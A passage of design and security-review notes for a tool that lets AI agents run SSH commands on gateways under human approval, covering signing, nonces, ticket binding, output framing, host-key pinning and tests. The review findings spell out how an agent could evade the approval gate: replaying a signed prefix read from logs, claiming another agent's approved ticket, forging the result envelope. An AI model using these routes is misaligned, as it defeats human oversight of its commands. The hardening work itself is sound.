  prefix (nonce) twice is refused; a prefix signed for gateway A is refused
  on gateway B; a flipped `ESHU_MCP` or `ESHU_FORCE_JIT` is refused; a stale
  timestamp and a bad hex sig are refused; the syslog line contains no
  signature/nonce hex and no prefix value; `mcp_only` refuses direct SSH;
  **G2:** a lone `ESHU_MCP=1`, a lone `ESHU_AGENT=`, a duplicate key, and a
  prefix with a missing field are all refused in `direct+mcp` too; a valid
  agent MAC satisfies the session gate in place of `ESHU_SESSION_SIG`, and
  without a MAC strict sessions still demand the signature.
* **G1**: `ssh_exec` refuses `ssh_key_unprovisioned` when the derived key
  column is empty; setting a token computes and stores `K`; rotating the
  token changes both `K` and the signature; `K` is absent from the API
  responses and the audit rows.
* **G4**: the four nonce-store cases of §5 A1 (failed write leaves the store
  intact, bad MAC adds no entry, replay after the directory is recreated is
  refused, store outside `/run`).
* **G5**: old `ts|cmd` line + new gateway (signed refused, unsigned
  accepted); old line whose command looks like `agent|session|cmd` stays
  agent-less; `v2` line + old poller (refused at the capability check);
  `v2` line + new gateway (agent A claims once; B and unsigned cannot).
* **G6**: a call carrying `--dashboard-key` with no signature, or a bad one,
  is refused in `direct+mcp` and `mcp_only`; the same call signed by the
  authenticated agent runs; an unsigned call **without** the marker still
  runs in `direct+mcp` (direct SSH unchanged); the generated sudoers allows
  exactly the two argv shapes.
* **G7**: a mismatch is refused and audited; a heartbeat with a new key does
  not change the pin; re-pinning is audited; the timeout kills the process
  group; the argv never goes through a shell, connects to the registered IP,
  passes `-F /dev/null`, `UserKnownHostsFile=<pin>`,
  `GlobalKnownHostsFile=/dev/null`; no pin means refused; the key dir/key
  modes are enforced; `ALLOWED_SSH_FROM` different from the dashboard
  address makes the installer warn.
* **G8**: for every refusal path, the logged line contains the stripped
  command only — no `ESHU_*` value, signature or nonce.
* **Force-JIT**: for each auto path (allowlist, window, plan, session
  override, read lane, host override), a force-jit request stays pending.
* **Tickets**: agent B and an unsigned caller cannot claim agent A's ticket;
  agent A claims it exactly once.
* **Runner**: no pin means refused; a mismatch is refused and audited; the
  timeout kills the process group; the key dir/key modes are enforced (the
  rest of the runner cases are in G7 above).
* **Flow**: pending → `check_request` → re-run consumes the ticket exactly
  once; `wait: true` returns the run or times out to `pending`; a refused
  command returns the reason and does not create a request.
* **Output**: 64 KiB tail kept, truncation flag, `secret_scrub` applied, F5
  result stored and visible in history; a command printing an envelope-shaped
  line comes back inside `output` and the outer result is unchanged; any
  other stdout is `bad-envelope`; in MCP mode there is exactly one envelope
  on every path (ran, pending, blocked, frozen, Zero-Trust, encoded payload,
  bad signature), `request_id` is an integer (N2), and a non-zero exit code
  is `exit_code`, not a stdout line.
* **Enrollment**: the generated `authorized_keys` has **both** lines, each
  with `restrict` and the forced command, the dashboard line carries
  `--dashboard-key` and the `eshu-dashboard` comment; re-running does not
  duplicate either; `mcp_only` drops the shared-key line; both generated
  installers (`dashboard/eshu-gateway-install.sh` and
  `dashboard/static/eshu-gateway-install.sh`) are regenerated in the same
  commit.
* **Freeze**: `ssh_exec` is blocked while frozen; audit row written.

#### 11. The five questions, answered

The feature reviewer answered the round-1 open questions; they are now
decisions, not questions:

1. **Signing key:** derive `HMAC(token, "eshu-ssh-agent-v1")` and MAC with the
   derived key, so rotating the token rotates it (§5). The security reviewer
   still confirms the derivation.
2. **`from=` and NAT:** keep `from=`, and reuse the installer's existing
   `ALLOWED_SSH_FROM` for NAT or a proxy; never ship a line without `from=`
   (§4).
3. **`read_only`:** refuse non-reads; do not queue them (§3).
4. **Key location:** default `/var/lib/eshu/ssh/` with
   `ESHU_SSH_KEY_DIR`; refuse to run if the directory is not `0700`/owned or
   the key not `0600` (§4).
5. **`wait: true`:** keep it, capped at 60 s, returning `pending` with the
   request id at the cap; `timeout` ≤ 120 s and F19 is the real remote bound
   (§2, §7).

#### 12. Accepted risk: the dashboard can start commands

Until now the dashboard could approve a command but not start one: the
gateway's forced command ran on the agent's own SSH connection. With the
dashboard key it can start a command on every gateway that holds the key, so
a **compromised dashboard can both start and approve its own commands**;
JIT still runs on the gateway, but with the approval UI on the same host that
holds the key, the human gate is only as strong as the dashboard. This is a
real trust change and is accepted for the homelab threat model, with these
mitigations:

* `from="<dashboard addresses>"` on the key line, so a stolen key does not
  work from anywhere else;
* per-gateway `ssh_mode` with `direct+mcp` as the default, so sensitive
  gateways can keep the key out entirely;
* the key file is `0600` in a `0700` directory owned by the service user, and
  the runner refuses to run otherwise;
* an `ssh_exec` audit row per call (agent, gateway, command hash, request id,
  outcome), on top of the gateway's own request/audit rows;
* `mcp_only` is opt-in: it retires the shared agent key, it does not widen the
  dashboard's reach.

**Option for the security reviewer: a per-gateway "never accept the dashboard
key" switch.** A gateway setting (`dashboard_key: never`, a checkbox, and an
installer flag `--no-dashboard-key`) makes the installer omit the dashboard
line (and remove it on a re-run); the server side then refuses to call that
gateway with `ssh_exec` (`dashboard_key_disabled`) and the UI says so. That is
the strongest available answer short of not shipping the key: the operator can
keep the dashboard unable to start commands on the gateways that matter, at
the cost of `ssh_exec` not working there. The design leaves the default at
"key present" and asks the security reviewer to decide whether the switch
should ship in this chunk or in F19/Chunk 7.

#### Round 2: fixes for design review round 1

* **R1** — the MAC now covers every prefix field, `sha256(command)` and the
  gateway identity, with a single-use nonce; signature and nonce values never
  reach syslog (§5).
* **R2** — `ESHU_FORCE_JIT` is honoured end to end: the gateway skips
  allowlist/window and marks the request, `receive_request` skips plan,
  session override, read lane and host override and re-derives the mode from
  the agent policy (§6).
* **R3** — tickets are bound to agent and session; an unsigned caller can
  claim only an agent-less ticket (§7).
* **R4** — the dashboard key line reuses today's option set and forced
  command; the installer writes both lines idempotently and drops the
  shared-key line in `mcp_only` (§4).
* **R5** — the envelope is the only stdout; all command output is base64
  inside it; anything else is `bad-envelope` (§8).
* **R6** — the host key is pinned from the token-authenticated registration
  and heartbeat, never scanned; no pin means refused; a new key audits and
  does not re-pin (§4).
* **S1/S2/S3** — `read_only` refuses (§3), the timeout/F19 bound is stated
  (§4), and the capability/format check fails closed (§9).
* **Answers 1–5** are folded in as decisions (§11).

`bash scripts/verify.sh`: `1856 passed, 3 skipped, 7 warnings in 379.20s (0:06:19)` (docs-only; the three skips are F18's read-lane tests).

#### Round 3: fixes for design review round 2

* **A1** — the nonce store is `/run/eshu/nonces`, `flock`ed check → append →
  prune under one lock, pruned to ±300 s, bounded at 4096 entries (fail
  closed, never evict unexpired), and fails closed on any store error. The
  bash and the concurrency/stale/full/unwritable tests are in §5.
* **A2** — the canonical form is a fixed `v1`-first newline-joined block with
  every field charset-checked, `K = HMAC(token, "eshu-ssh-agent-v1")`, and the
  gateway helper reads the key from `/etc/eshu-token` with the canonical string
  on **stdin** (the signature is the only argument, so the key is never on
  argv). The shared test vector (`eshu-test-token` … `uptime`) and its
  expected MAC are in §5.
* **A3** — every human-facing writer goes through `say()`, which prints in
  direct mode and appends an escaped `messages` entry in MCP mode; the
  command stream is captured and only the envelope reaches stdout. The cap is
  **64 KiB for the MCP envelope** (F5's 16 KiB stays for `request_results`),
  with the bash and the "exactly one envelope on every path" test in §8.
* **A4** — the ticket line is `ts|agent|session|cmd` (command last), written
  by the poller from the approval payload; a new gateway reads old `ts|cmd`
  lines as agent-less; a signed request can never claim an agent-less line; an
  unsigned request can claim only agent-less tickets. Both directions and the
  cross-agent case are tested (§7).
* **A5** — the trust change is written as an accepted risk with its
  mitigations, plus the per-gateway "never accept the dashboard key" option
  for the security reviewer to accept or defer (§12).

#### Round 4: code-time notes from design round 3

No code: F12 waits for the operator's go-ahead. The security sign-off below is
recorded, and its G1-G8 conditions must be written into this note before the
first line of code; the gateway bash then goes back to the security chat.

* **N1 — the nonce store matches the nonce alone.** `consume_nonce` looks for
  `$2 == nonce` (awk), so a repeated nonce is refused whatever timestamp it
  carries. The MAC already binds the timestamp, but the store does not rely
  on that. The A1 snippet shows the check.
* **N2 — the envelope's `request_id` is an integer.** It prints
  `REQUEST_ID_INT`, never the zero-padded `DISPLAY_ID`, which is not a valid
  JSON number. The A3 snippet and its test say so.

`bash scripts/verify.sh`: `1856 passed, 3 skipped, 7 warnings in 380.40s (0:06:20)` (docs-only; the three skips are F18's read-lane tests).

#### Round 5: the security conditions G1–G8, written into the design

No code. This round folds the security reviewer's conditions (`feaf144`,
under "Security reviewer sign-off" above) into the design, in the sections
that change. Where an earlier section and this one disagree, **this section
wins**; the code round implements this text.

* **G1 — sign with the derived key, not the token.** Added to §5. The key is
  `K = HMAC-SHA256(token, "eshu-ssh-agent-v1")`, computed when a token is set
  or rotated, stored in `gateways.ssh_key_derived` (hex), and never logged or
  returned by an API. The signing path reads only the column and refuses
  `ssh_key_unprovisioned` when it is empty. A startup backfill derives it for
  rows that predate the column (they still hold a plaintext token; after
  security Chunk 7 they will not, which is why it has to be stored now).
  Tests: empty column refused, set/rotate computes and changes both `K` and
  the signature, no `K` in responses or audit rows.
* **G2 — refuse half-signed and ambiguous prefixes.** Added to §5, §2 and
  §4. Any of the six identity keys present requires a fully valid signature
  in **every** `ssh_mode`; a duplicate prefix key is refused; a missing field
  is a refusal, not a default; `ssh_exec` refuses a command whose first word
  starts with `ESHU_`; the prefix key is `ESHU_SESSION_ID` everywhere
  (§2, §5); a valid agent MAC may stand in for `ESHU_SESSION_SIG` for the
  session it covers, and only then.
* **G3 — hash exactly the bytes the gateway runs.** Added to §2. `ssh_exec`
  refuses leading/trailing whitespace and any control character other than
  tab and newline, so `sha256(command)` is the hash of the bytes the gateway's
  trim leaves untouched.
* **G4 — the nonce store.** §5 A1 replaced: `/var/lib/eshu/nonces` in a
  persistent root-owned `0700` dir; a separate `nonces.lock`; prune, replay
  check, bound and append written to a temp file and `mv`ed into place;
  charset → timestamp window → MAC → nonce, in that order; a store that
  cannot be created refuses the call. N1 is kept. Tests: failed write leaves
  the previous store intact, a bad MAC adds no entry, a replay after the
  directory is recreated is still refused.
* **G5 — version the ticket, and require the format.** §7 A4 replaced. The
  line is `v2|ts|agent|session|cmd`; a line without the tag is old and
  agent-less (everything after the first `|` is the command); an unsigned
  caller may claim only an agent-less ticket; the dashboard refuses to sign
  for a gateway that did not report `ssh_ticket_format=v2`. §9 lists the
  check next to the agent-format one, and the installer/gateway/poller pair
  is what reports it.
* **G6 — a call on the dashboard key must be signed.** §4. The dashboard
  `authorized_keys` line's forced command carries exactly one extra argument,
  `--dashboard-key`, and sudoers allows exactly
  `/usr/local/bin/eshu-gateway.sh` and
  `/usr/local/bin/eshu-gateway.sh --dashboard-key`. sshd sets the argument; a
  caller on the shared key cannot. The gateway refuses any call that carries
  the marker without a valid signature, in every `ssh_mode`. A signed call on
  the dashboard key runs normally. The "never accept the dashboard key"
  switch stays deferred to Chunk 6, as the sign-off says in answer 4.
* **G7 — harden the runner.** §4. Connect to the registered IP (never the
  hostname), `-F /dev/null`, `-o UserKnownHostsFile=<pin file>`,
  `-o GlobalKnownHostsFile=/dev/null`, `-o StrictHostKeyChecking=yes`. The
  installer warns when `ALLOWED_SSH_FROM` names anything other than the
  dashboard's own address, because every entry in that list may use the
  dashboard key. The pin column stores the gateway's public key **line**,
  not only its fingerprint: a fingerprint cannot build a `known_hosts`
  entry. The line is still the only thing trusted, and the fingerprint is
  what the UI and audits show.
* **G8 — one logging rule.** §5. The gateway logs the command only after
  **all** prefixes are stripped, `ESHU_SESSION_SIG` included, and logs no
  prefix value, signature or nonce at any level. The initial `from=… cmd=…`
  line moves below the parser for this reason. Chunk 7's "stop logging the
  signature" item stays open until whichever ships first is deployed.

Two implementation details settled while folding these in, both written into
the sections above so the code cannot invent them:

* `GET /api/ssh-key` is public (it returns a public key; the installer must
  reach it before it has any credential). It is not a session endpoint, and
  it returns nothing else.
* the F5 `request_results` row is still posted by the gateway with its
  `request_id`; the dashboard stores one only if that post did not land, so
  `first result wins` keeps holding and there is never a duplicate row.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.69s (0:07:08)` (docs-only).

#### Round 6: implementation of round 5 (code round)

The code commit is **`aa268de`** — *"feat(f12): ssh_exec — SSH through Eshu
over MCP (design round 5)"*. **It contains the gateway bash**
(`dashboard/eshu-gateway.sh`, `dashboard/eshu-poller.sh`,
`dashboard/eshu-installer-template.sh` and both regenerated installers), so
that is the commit the security reviewer reviews before merge. The dashboard
side is in the same commit because the two halves share the canonical form
and the test vector; the notes commit (`this one`) is docs-only.

**Where each condition lives.**

| | Dashboard | Gateway / installer | Tests |
|---|---|---|---|
| G1 | `core/ssh_crypto.derive_key`, `gateways.ssh_key_derived` (set on every `set_gateway_token`, startup backfill, `ssh_key_unprovisioned` refusal) | the helper derives `K` itself from `/etc/eshu-token` | `TestDerivedKey`, `test_key_is_not_in_the_register_response` |
| G2 | `command_problem` (no `ESHU_` first word), `ESHU_SESSION_ID` everywhere, session ownership | duplicate keys and half-signed prefixes refused in every mode; agent MAC vouches for the session it covers | `test_a_lone_mcp_flag_is_refused`, `test_half_signed_*`, `test_a_duplicate_prefix_key_is_refused`, `test_an_incomplete_prefix_is_refused`, `test_a_valid_agent_mac_vouches_for_the_session` |
| G3 | leading/trailing whitespace and control bytes refused before signing | the trim happens after the prefix parse, so the MAC covers what runs | `TestCommandBytes` |
| G4 | — | `nonce_store_ready` / `consume_nonce` exactly as §5, `/var/lib/eshu/nonces`, temp + rename, MAC before write | `test_nonce_store_is_persistent_not_in_run`, `test_a_bad_mac_adds_no_entry`, `test_an_unwritable_store_refuses_and_keeps_the_old_entries`, `test_a_full_store_refuses` |
| G5 | `requests.ticket_line` (`v2\|ts\|agent\|session\|cmd`), `/api/poll` and `/api/ticket` | `parse_ticket_line`, `ticket_allowed`, `remove_claimed_ticket`; the poller prunes `$2` for `v2` | `TestTickets`, the ticket cases in `tests/test_f12_gateway.py` |
| G6 | — | `--dashboard-key` refuses an unsigned call in every `ssh_mode`; sudoers allows exactly the two argv shapes | `test_dashboard_key_*`, `test_f12_sudoers_allows_exactly_two_argv_shapes` |
| G7 | `build_argv` (registered IP, `-F /dev/null`, `UserKnownHostsFile`, `GlobalKnownHostsFile=/dev/null`, `StrictHostKeyChecking=yes`), pin helpers | — | `TestRunnerArgv`, `test_f12_dashboard_key_line_and_marker` |
| G8 | audit rows carry the command **hash**, never the command | one log line after the parse, stripped, no prefix values | `test_log_line_has_the_stripped_command_and_no_prefix_values`, `test_refusal_log_has_no_raw_value` |

**Two bugs the tests caught during implementation** (both in the gateway
bash, both worth seeing in review):

* The A2 snippet in the design said "the canonical string arrives on stdin".
  The original code used a heredoc for the Python program, and a heredoc
  takes stdin for itself, so the canonical never reached the helper and every
  signature was refused. The fix is `python3 -c '…' "$ESHU_AGENT_SIG"`, which
  keeps stdin free — exactly what the design text describes, so the text did
  not need to change.
* In MCP mode the stream went through `tee "$ESHU_OUT_FIFO"`, and `tee`
  also writes to stdout: the command's output appeared *before* the envelope,
  which the dashboard correctly called `bad-envelope`. In MCP mode the `tee`
  now writes to `/dev/null`; the FIFO reader is the only consumer, so the
  envelope is the only stdout.

**Other things the reviewer should see.**

* `ESHU_NONCE_OWNER` is a test seam (default `0`) like the existing
  `ESHU_RUN_OWNER`: the sandbox runs as a non-root user. Env cannot move the
  store in production — the script unsets every variable it does not
  whitelist before the store is touched.
* An old installer that re-registers sends no capability fields, which
  **clears** the stored pair and makes `ssh_exec` refuse (`ssh_not_ready`)
  until the gateway is re-enrolled with the new installer. That is the
  fail-closed reading of §9; noted in case the reviewer prefers keeping the
  last reported pair.
* The gateway posts the F5 row for an MCP run even when `/etc/eshu-capture`
  is `off`/`exit-only` (the envelope already carried those bytes to the
  agent, and the dashboard would store them otherwise). See open question 1.

**Open questions (for the security reviewer / reviewer):**

1. Should an MCP run's output be stored in `request_results` when the
   gateway's capture mode is `off`? Round 5 says the row comes from the
   gateway; in practice MCP mode captures to build the envelope, so the
   gateway stores the last 16 KiB of it. The alternative is to store nothing
   when capture is off and let the MCP client be the only holder. This is a
   data-retention choice, not a security one, and the current behaviour is
   the more auditable one.
2. §4 says "the UI warns when `ALLOWED_SSH_FROM` on a gateway covers more
   than the dashboard's own address". The dashboard cannot know that value
   (the installer applies it locally), so the warning is printed by the
   installer, where the value exists. If a UI warning is still wanted, it
   needs the installer to report the applied `from=` at registration — say
   the word and it is a small follow-up, not part of this commit.

`bash scripts/verify.sh`: `2462 passed, 7 warnings in 456.51s (0:07:36)` (the whole suite, on `aa268de`).

#### Round 7: fixes for code round 1 (M1–M3, S1–S2; the gateway bash review R1–R4, S1–S4)

The code commit is **`c137e55`**. **It contains the gateway bash**
(`dashboard/eshu-gateway.sh`, `dashboard/eshu-poller.sh`,
`dashboard/eshu-installer-template.sh`) and both regenerated installers, so
that is the commit the security reviewer re-reads (only the diff, as asked).
This notes commit is docs-only.

**Feature reviewer.**

* **M1 — an old gateway got a v2 ticket.** `db/requests.ticket_line` now
  takes the gateway's reported format: `v2|ts|agent|session|cmd` only when
  the stored `ssh_ticket_format` is `v2`, the old `ts|cmd` otherwise. Both
  call sites pass it (`update_ticket_consumed_by_ip` for `/api/poll`,
  `get_ticket_by_request_id` for `/api/ticket`), read in the same function so
  a re-registration cannot change the format mid-delivery. An agent row on a
  gateway that has not reported v2 is **refused**: the row is denied (a
  terminal state the agent's `wait`/`check_request` sees) and a `jit_refused`
  audit row is written, because the old format has no agent field and an
  unsigned caller could claim it. Tests:
  `test_an_old_gateway_gets_the_old_line_from_both_call_sites`,
  `test_a_v2_gateway_gets_v2_from_both_call_sites`,
  `test_an_agent_row_on_an_old_gateway_is_refused`,
  `test_the_ticket_endpoint_refuses_an_agent_row_on_an_old_gateway` and the
  `ticket_line` shape tests.
* **M2 — the approval race on re-run.** `wait` re-runs only at `consumed`
  (the poller has taken the ticket into the lockbox), never at `approved`;
  `check_request` returns a `next_step` — `approved` reads "delivering to the
  gateway — do not re-run yet", `consumed` reads "ready to re-run" — and the
  `ssh_exec` description says `consumed` too. Tests:
  `test_wait_reruns_once_consumed`, `test_wait_does_not_rerun_while_approved`
  (a simulated poller lag: exactly one signed call, the row stays approved)
  and `test_next_step_is_ready_only_after_consumed`.
* **M3 — force-JIT failed open.** The re-derivation now uses
  `db.agent_policies.DEFAULT_SSH_MODE` (the same constant `ssh_exec` uses):
  an unknown agent, an exception and an unset mode all force JIT instead of
  auto-running. Tests: `test_an_unknown_agent_fails_closed_to_approval`,
  `test_a_policy_error_fails_closed_to_approval`,
  `test_an_unset_ssh_mode_fails_closed_to_approval`.
* **S1 — capability vs token file.** The installer claims
  `ssh_agent_format=eshu-ssh-agent-v1` only when it will write
  `/etc/eshu-token` (install/reinstall) or the file already exists (upgrade).
  A self-updated gateway with no token file therefore reports no agent
  format, and `ssh_exec` refuses with `ssh_not_ready` instead of every call
  failing as `bad signature`. Ticket format v2 is still reported — the new
  gateway script understands it without a token. Test:
  `test_f12_register_reports_pin_and_capabilities`.
* **S2 — an unverified agent in the log.** See R2.

**Security reviewer (gateway bash).**

* **R1 — the token was world-readable.** `write_gateway` creates the script
  (and its temporary `.bak`) under `umask 077` and finishes 0700 root:root in
  every installer mode; the token temp file is written under `umask 077` in
  the installer and in both poller rotation paths, so it is never readably
  transient. Tests: `test_f12_write_gateway_is_root_only_in_every_mode` (a
  real run of the shipped `write_gateway` twice, covering the update path),
  `test_f12_token_file_is_created_0600_under_a_permissive_umask` (runs the
  block under `umask 022` and observes the mode *at the chmod*, proving the
  creating umask) and `test_f12_poller_token_rotation_uses_umask_077`.
* **R2/S2 — `PREFIX REFUSED` logged the raw agent value.** It now logs
  `${ESHU_VERIFIED_AGENT:-none}`, set only after the MAC verifies, so a
  value that failed its charset check never reaches syslog. Test:
  `test_the_refusal_log_carries_no_unverified_agent` (a control byte in
  `ESHU_AGENT`; nothing from it appears in the log).
* **R3 — an unknown `ESHU_` word after the parse.** The gateway refuses a
  command whose first word still starts with `ESHU_` after the prefixes are
  stripped, which covers both an unknown key and a known key placed after
  one. Tests: `test_an_unknown_eshu_key_is_refused_direct`,
  `test_an_unknown_eshu_key_is_refused_in_mcp_mode`,
  `test_a_known_key_after_an_unknown_one_is_refused`.
* **R4 — MCP output was stored under `exit-only`.** `post_exec_result` now
  keys on the capture mode alone: `off` posts nothing, `exit-only` stores the
  exit code and duration, `tail` stores the tail (in MCP mode still read from
  the envelope capture, the same stream). Tests:
  `test_mcp_exit_only_stores_no_output`, `test_mcp_tail_still_stores_the_tail`.
* **S1 — unmaced keys in a signed prefix.** A signed prefix carrying
  `ESHU_WINDOW_TOKEN` or `ESHU_EXECUTION_ID` (neither is in the MAC) is
  refused. Test: `test_a_signed_prefix_must_not_carry_unmaced_keys`.
* **S2 — the nonce store was not self-protected.** `/var/lib/eshu` is on the
  hard blocklist, so deleting it is FATAL. Test:
  `test_the_nonce_store_is_self_protected`.
* **S3 — sudoers allowed arguments.** The plain line is now
  `/usr/local/bin/eshu-gateway.sh ""` (sudoers(5): `""` means no arguments);
  the dashboard line already named its one argument. Test:
  `test_f12_sudoers_allows_exactly_two_argv_shapes`.
* **S4 — the host argument.** `ssh_exec` checks the gateway IP against
  `IP_RE` (`[0-9A-Fa-f:.]{1,64}`, the gateway's own `TARGET_IP` pattern)
  just before `run_ssh`, so neither a hostname nor an option-like string can
  reach `build_argv`. Test:
  `test_a_gateway_whose_ip_is_not_an_ip_is_refused`.

**The two open questions, answered as the reviews decided.**

1. **MCP output and capture `off`.** The operator's setting wins (R4, §2.5):
   `off` writes no `request_results` row, `exit-only` stores the exit code and
   duration only, `tail` stores the tail. The MCP envelope still carries the
   bytes to the agent — the row is a dashboard artefact, not the agent's
   only copy.
2. **`ALLOWED_SSH_FROM`.** The installer warning (already in the installer,
   where the value exists) is the answer; the security reviewer recorded that
   it is enough for G7. The optional UI echo of the applied `from=` would
   need the installer to report it at registration — deferred, not needed
   for the gate.

**One thing the reviewer should see.** `_refuse_agent_ticket` takes the
request id explicitly, and both lookup paths capture the fields the audit
needs inside the `with` block: `get_ticket_by_request_id` projects only the
columns it returns (no `id`), and a `sqlite3.Row` is not safe to read after
its connection closes.

`bash scripts/verify.sh`: `2484 passed, 7 warnings in 461.05s (0:07:41)`.

#### Round 8: merged forward — the MCP capture on the CI fix

This merge brings the branch onto the updated `feature-roadmap` (CI fix
`f2746ef`, deploy helper). The gateway capture is now the CI fix's:

* **No FIFO.** `run_sanitized` has no `mkfifo`, no second reader, no
  `wait "$ESHU_TAIL_PID"`. F12's MCP branch is
  `"$@" 2>&1 | sanitize | capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`, so
  the envelope capture is the same in-stream ring; the command's output never
  reaches stdout.
* **One ring, two caps.** `capture_tail` takes the byte cap as `$2`
  (default 16 385) and sizes its ring at `cap + 2`; F5 keeps its 16 KiB and
  the MCP envelope its 64 KiB + 1. In MCP mode only `ESHU_MCP_CAP` is
  created; `post_exec_result` already reads it for the F5 row when the
  operator's capture mode is `tail` (R4).
* **B1 comes with it** (`stdbuf -oL sed` in `sanitize`). B2's `-W interactive`
  is not used: it splits records longer than 4096 bytes (see F5 round 6).
  F12's tests, the F5 capture tests and the gateway-script tests pass.
* Both installers were regenerated in this commit.

#### Round 9: merged forward again — onto the buffering fix

This merge brings the branch onto `feature-roadmap` at `ef2418f`, which
contains the line-buffered `sanitize` (`fix/stream-unbuffered`, merge
`d8d70c2`; security sign-off `f0d5bc8`). The merge commit is `dc3eb01`.

* **`sanitize` is the roadmap's, unchanged.** It runs
  `"${SANITIZE_CMD[@]}" -e …`: `SANITIZE_CMD=(stdbuf -oL sed -E)` when
  `stdbuf` is found once on the fixed `PATH` after the environment is
  scrubbed, `(sed -E)` otherwise with a single syslog line
  (`BUFFERING: stdbuf is unavailable; …`). The redaction expressions are
  byte-identical to the branch's old ones, so every sanitize test passes
  without a change. This is B1; the branch no longer has plain `sed -E`.
* **The MCP branch is unchanged:**
  `"$@" 2>&1 | sanitize | capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`.
  One in-stream ring, no FIFO, nothing to wait for; the command's own output
  still never reaches stdout. `capture_tail` keeps the `$2` cap and the
  `cap + 2` ring from round 8 (the roadmap's copy still has the fixed
  16 385 cap, so this file's version is the one the merge keeps).
* **Conflicts and how they were resolved.** `sanitize` itself auto-merged to
  the roadmap form, so there was no conflict there in the end. Three files
  did conflict:
  - `tests/test_f5_capture_tail.py`: `_sandbox` takes both seams —
    `awk_name`, the roadmap's `awk_body` stub and F12's `cap`; the B2
    `-W interactive` guard and the 65 537-byte envelope test both stay
    (they are complementary, not alternatives).
  - `tests/test_gateway_script.py`: the F12 path and nonce swaps and the
    CI fix's `stdbuf=False` swap are both kept, `stdbuf` first.
  - `docs/features/FEATURE_PLAN.md`: the F12 status row, rewritten for this
    merge.
* **Not changed here.** B2's `-W interactive` is still not used (F5 round 6
  measured that it splits or truncates long records). The mawk/`tail`
  residual noted in the buffering-fix sign-off applies to F5 capture; the
  MCP path writes the ring to `/dev/null`, so its buffering does not matter.
* Both installers were regenerated in the merge (`python3
  dashboard/gen_installer.py`); the embedded gateway in each matches the
  source.

The security reviewer re-reads the merged gateway diff; the feature reviewer
merges after that.

`bash scripts/verify.sh`: `2505 passed, 22 skipped, 7 warnings in 464.25s (0:07:44)`
(gawk is not installed in this container, so its parameters skip here too).

### Reviewer notes

**Round 1 (2026-11-09): design changes requested. Not ready for the security
reviewer yet.** I reviewed the design note at `97776d6`, against the gateway
(`eshu-gateway.sh`) and the installer template as they are on
`feature-roadmap`. Only the design was reviewed, because the branch has no
code. `bash scripts/verify.sh` on the docs change: `1856 passed, 3 skipped, 7 warnings in 328.10s (0:05:28)`.

**What is right.** The overall shape works:

* `ssh_exec` reaches the gateway's existing forced command, so every
  gateway stage still runs.
* `host` is looked up, never interpolated.
* The runner uses a fixed argv with no shell, `BatchMode`, and a
  process-group kill.
* Direct SSH keeps its text output, so the F5 golden test is untouched.
* `ssh_hosts_allow` is opt-in, with empty meaning none.
* `mcp_only` lets the operator retire the shared key one gateway at a
  time.

The dashboard key adds little new power. The dashboard can already approve
anything, and the key only reaches the same forced command. Six design gaps
need an answer before the security review.

*Must fix (in the design note):*

* **R1 The agent signature must bind the command and be single-use.** The
  proposed MAC covers the agent, session, timestamp and `force_jit`, but not
  the command bytes and not `ESHU_MCP`. It is valid for ±300 s and can be
  reused. Today the gateway also writes the whole `SSH_ORIGINAL_COMMAND`,
  prefixes included, to syslog (stage 1, `logger … cmd=…`). Anything that can
  read the gateway's logs can therefore see a fresh signed prefix. That
  includes an agent with log reads, and later F4's read lane, which allows
  `/var/log` and `journalctl`. A direct-SSH agent could then put that prefix
  in front of its own command and be recorded as the other agent, inheriting
  that agent's mode, and later its per-agent overrides. **Design change:**
  * The MAC covers a canonical encoding of every prefix field plus
    `sha256(command)` and the gateway's own identity (its IP, or a gateway
    id).
  * Add a random nonce, which the gateway keeps for the validity window and
    refuses to see twice.
  * Stop logging the signature and nonce values: log `agent=` and
    `sig=ok|bad|none` only.

  **Tests:** a valid prefix with a different command is refused; the same
  prefix twice is refused; a prefix signed for gateway A is refused on
  gateway B; a flipped `ESHU_MCP` is refused; the syslog line has no
  signature hex.
* **R2 Say where `ESHU_FORCE_JIT` is honoured, end to end.** The auto-run
  decisions are not all on the gateway. The allowlist and windows run there,
  but the F3 plan, session override, F4 read lane and host override run on
  the dashboard inside `receive_request` (§ 2.6). As written, an `approval`
  agent's `uptime` would still be auto-approved by an active host override
  or the read lane. The note also says that the gateway still runs "plans,
  the read lane … exactly as today", which contradicts the `approval` mode.
  **Design change:**
  * The gateway skips its allowlist and window auto-run stages when
    `force_jit` is set and signed, and passes `force_jit` (and the verified
    `agent`) to `/api/request`.
  * `receive_request` then skips every auto-approve path: plan, session
    override, read lane and host override. It also re-derives the mode from
    the agent's own policy, so the dashboard does not rely on the prefix
    alone.
  * The § 2.6 order is otherwise unchanged. Freeze, the encoded-payload
    block and the blocklists still win.

  **Tests:** for each auto path (allowlist, window, plan, session override,
  read lane, host override), a `force_jit` request stays pending.
* **R3 Bind the approved ticket to the agent.** `claim_lockbox_ticket`
  matches on the command bytes alone. While a gateway is in `direct+mcp`,
  any shared-key caller that sends the same bytes within 90 s takes agent
  A's approved ticket, runs it under its own identity and gets the output.
  The re-run step of the pending → approve → re-run flow depends on that
  claim. **Design change:** the ticket line carries `agent` (and the
  session), and the claim also matches them. An unsigned request can claim
  only a ticket with no agent. **Tests:** agent B, and an unsigned caller,
  cannot claim agent A's ticket; agent A claims it exactly once.
* **R4 The `authorized_keys` line must reuse today's options.** The
  installer writes
  `command="/usr/bin/sudo /usr/local/bin/eshu-gateway.sh",no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,restrict`
  and an optional `from=` (`ALLOWED_SSH_FROM`). It *overwrites* the file
  with that one line. The note's proposed line has a different command path
  and no `restrict`/`no-*` options. **Design change:** the dashboard key
  gets the same option set and forced command, plus its own `from=`. The
  installer writes both lines (the shared key, while the gateway is in
  `direct+mcp`, and the dashboard key). Re-running it replaces each line
  rather than adding to it. **Tests:** the generated file has both lines,
  each with `restrict` and the forced command; re-running does not
  duplicate either line; and `mcp_only` drops the shared-key line.
* **R5 Framing of the MCP envelope.** The dashboard parses the gateway's
  stdout. If any command output reaches stdout outside the envelope, a
  command can print an envelope-shaped line and forge `status: "ran"` or a
  fake `exit_code`. **Design change:** in MCP mode, the gateway captures all
  command output (F5's capture path), base64-encodes it inside the
  envelope, and prints *only* the envelope. The dashboard accepts exactly
  one envelope with a fixed marker and treats anything else as `refused`
  (`bad-envelope`). **Test:** a command whose output contains an
  envelope-shaped line comes back inside `output`, and the outer result is
  unchanged.
* **R6 Where the pinned host key comes from.** "Captured at registration" is
  not specific enough. The dashboard must not learn the key by scanning it
  over the network on first use. **Design change:** the gateway sends its
